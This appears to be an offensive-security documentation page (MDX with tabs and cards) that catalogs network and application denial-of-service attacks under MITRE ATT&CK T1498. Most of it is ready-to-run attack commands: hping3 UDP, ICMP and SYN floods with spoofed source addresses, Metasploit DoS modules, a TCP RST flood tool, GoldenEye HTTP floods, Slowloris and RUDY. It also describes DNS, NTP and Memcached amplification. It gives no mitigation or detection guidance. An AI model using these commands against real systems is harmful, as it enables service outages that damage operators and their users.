

<Callout type="info" title="MITRE ATT&CK Mapping">
[T1498 Network Denial of Service](https://attack.mitre.org/techniques/T1498/)
</Callout>




---

## Volume-Based Attacks (Volumetric)

These attacks aim to consume the target's bandwidth by overwhelming it with massive amounts of useless traffic.

<Tabs>
  <Tab title="UDP & ICMP Floods">
    <Tabs>
      <Tab title="hping3">
        ```bash
        # Send a massive flood of UDP packets to a specific port
        hping3 -p 139 --udp --flood <TargetIP>

        # UDP flood with random source IPs
        hping3 --udp --data 500 --rand-source --flood <TargetIP>

        # Send massive ICMP echo requests (Ping Flood)
        hping3 -1 --flood -d 65538 <TargetIP>
        ```
      </Tab>
      <Tab title="MSFconsole ICMP Flood">
        ```ruby
        use auxiliary/dos/tcp/imaxflood
        set RHOSTS <TargetIP>
        exploit
        ```
      </Tab>
    </Tabs>
  </Tab>

  <Tab title="Amplification & Reflection (DDoS)">
    Attackers spoof the victim's IP address and send small requests to public servers (like DNS or NTP). The servers send massive responses back to the victim, overwhelming them.
    <CardGroup cols={3}>
      <Card title="DNS Amplification" icon="network">
        Spoofed DNS queries with `ANY` record requests.
      </Card>
      <Card title="NTP Amplification" icon="clock">
        Using the `monlist` command on vulnerable NTP servers.
      </Card>
      <Card title="Memcached Amplification" icon="database">
        Spoofed requests to exposed Memcached servers (can amplify traffic by up to 51,000x).
      </Card>
    </CardGroup>
  </Tab>
</Tabs>

---

## Protocol Attacks (Layer 3 & 4)

<Tabs>
  <Tab title="TCP SYN Flood">
    Exploits the TCP handshake process by sending a flood of SYN packets without completing the handshake, exhausting the server's connection queue.
    <Tabs>
      <Tab title="MSFconsole">
        ```ruby
        msf> use auxiliary/dos/tcp/synflood
        msf> set RHOST <TargetIP>
        msf> set RPORT <TargetPort>
        msf> set SHOST <IPtoSpoof> # Optional: Spoof source IP
        msf> exploit
        ```
      </Tab>
      <Tab title="hping3">
        ```bash
        # SYN flood with spoofed IP
        hping3 -p 22 -S -a <IPtoSpoof> --flood <TargetIP>

        # SYN flood with large payload to consume bandwidth
        hping3 -p 22 -d 65538 -S --flood <TargetIP>
        ```
      </Tab>
    </Tabs>
  </Tab>

  <Tab title="TCP RST Flood (Connection Reset)">
    Sends a flood of TCP RST (Reset) packets to forcefully drop active connections between a target and its clients.
    ```bash
    rst
    # Inside the RST interactive prompt:
    >> l4
    >> ip <targetip>
    >> port <target_port>
    >> threads 2000
    >> run
    ```
  </Tab>

  <Tab title="Other Protocol Attacks">
    <CardGroup cols={3}>
      <Card title="Ping of Death (PoD)" icon="activity">
        Sending malformed or oversized ICMP packets to crash legacy systems. (`hping3 -1 -d 65535 <TargetIP>`)
      </Card>
      <Card title="Smurf Attack" icon="radio">
        ICMP requests sent to a network's broadcast address with the victim's spoofed IP.
      </Card>
      <Card title="Fragmentation Attacks" icon="layers">
        Sending overlapping or fragmented IP packets to crash the target's network stack.
      </Card>
    </CardGroup>
  </Tab>
</Tabs>

---

## Application Layer Attacks (Layer 7)

<Tabs>
  <Tab title="HTTP GET / POST Floods">
    Sends seemingly legitimate HTTP requests to a web server to exhaust its resource pools (CPU, RAM, Database connections). Unlike volumetric attacks, these require very little bandwidth.
    <Tabs>
      <Tab title="GoldenEye">
        ```bash
        # Basic HTTP flood
        goldeneye.py http://<TargetIP> -w 10 -s 100
        # -w: workers, -s: sockets per worker
        ```
      </Tab>
      <Tab title="MSFconsole">
        ```ruby
        use auxiliary/dos/http/get_boom
        set RHOSTS <TargetIP>
        set URI /
        exploit
        ```
      </Tab>
    </Tabs>
  </Tab>

  <Tab title="Slowloris & Slow HTTP Attacks">
    Instead of flooding with traffic, these attacks open many connections to the web server and keep them open as long as possible by sending partial HTTP requests periodically.
    <Tabs>
      <Tab title="Slowloris">
        ```bash
        slowloris -p 80 <TargetIP>
        ```
      </Tab>
      <Tab title="RUDY (R-U-Dead-Yet)">
        Targets web applications by submitting long, never-ending POST requests to exhaust server threads.
        ```bash
        ruby rudy.rb <TargetURL>
        ```
      </Tab>
    </Tabs>
  </Tab>
</Tabs>
